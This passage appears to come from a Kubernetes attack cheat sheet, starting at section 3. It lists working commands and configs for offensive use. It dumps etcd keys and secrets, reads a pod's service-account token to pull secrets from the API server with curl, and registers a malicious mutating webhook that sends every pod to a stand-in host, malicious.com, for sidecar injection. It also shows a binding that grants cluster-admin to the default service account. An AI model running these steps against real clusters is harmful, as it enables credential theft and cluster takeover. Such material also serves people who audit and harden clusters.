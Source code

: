 ### 3. Exposed etcd
Accessing cluster secrets via etcd:
```bash
# Direct etcd access
etcdctl --endpoints=http://localhost:2379 get / --prefix --keys-only

# Get secrets
etcdctl --endpoints=http://localhost:2379 get /registry/secrets/default/my-secret
```

### 4. Kubernetes API Server Exploitation
```bash
# Check permissions
kubectl auth can-i --list

# Get service account token
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)

# Access API server
curl -k https://kubernetes.default.svc/api/v1/namespaces/default/secrets \
  -H "Authorization: Bearer $TOKEN"
```

### 5. Sidecar Injection Attack
Malicious admission webhook:
```yaml
apiVersion: admissionregistration.k8s.io/v1
kind: MutatingWebhookConfiguration
metadata:
  name: sidecar-injector
webhooks:
- name: sidecar-injector.malicious.com
  clientConfig:
    url: https://malicious.com/inject
  rules:
  - apiGroups: [""]
    apiVersions: ["v1"]
    resources: ["pods"]
```

### 6. RBAC Misconfiguration
Overly permissive roles:
```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: permissive-binding
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: cluster-admin
subjects:
- kind: ServiceAccount
  name: default
  namespace: default
```
